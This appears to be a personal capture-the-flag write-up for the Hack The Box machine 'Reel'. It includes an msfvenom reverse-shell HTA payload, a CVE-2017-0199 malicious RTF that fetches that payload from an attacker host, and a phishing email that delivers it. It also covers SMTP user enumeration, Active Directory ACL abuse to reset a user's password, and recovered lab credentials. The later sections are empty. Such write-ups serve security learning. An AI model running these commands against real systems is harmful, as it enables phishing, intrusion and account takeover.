




# Summary


## about target

tip:  10.129.

hostname: Reel

Difficulty:  Hard


## about attack

+ hta phishing. generate hta, msvenom and out-hta.ps1
+ Writeowner, set owner and  resetpassword, exploit
+ WriteDacl on groups, exploit: add user to group
+ bloodhound, check the firest degree object control
+ Pscredential  use, cypher and get cleartext pwd.


**attack note**

```bash
Reel / 10.129.228.124


---- Interesting

htb\tom:1ts-mag1c!!!
administrator:Cr4ckMeIfYouC4n!
---- Enum 
# ftp enum, anonymous login; found files.
ftp $tip

exiftool Windows\ Event\ Forwarding.docx

# smtp enum
##  nmap sc scan, found users.
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 $tip -oN smtp.nmap

## enum user, recheck.
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t $tip

smtp-user-enum -M RCTP -U users.txt -t $ti

---- Foothold
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=443 -f hta-psh -o msfv.hta

python2 cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.90/msfv.hta -t rtf -x 0

sendEmail -f hack01@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s $tip -v


powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"

Get-ObjectAcl -SamAccountName clair -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  

---- System
Set-DomainObjectOwner -identity claire -OwnerIdentity tom

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword

$cred = ConvertTo-SecureString "Hack01@123" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-28-18  11:19PM       <DIR>          documents
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey:
|   2048 8220c3bd16cba29c88871d6c1559eded (RSA)
|   256 232bb80a8c1cf44d8d7e5e6458803345 (ECDSA)
|_  256 ac8bde251db7d838389b9c16bff63fed (ED25519)
25/tcp open  smtp?
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|   Hello:
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help:
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|   TerminalServerCookie:
|     220 Mail Service ready
|_    sequence of commands
```





# Foothold

## shell nico








## shell tom





# Privesc


## proof

```bash


```


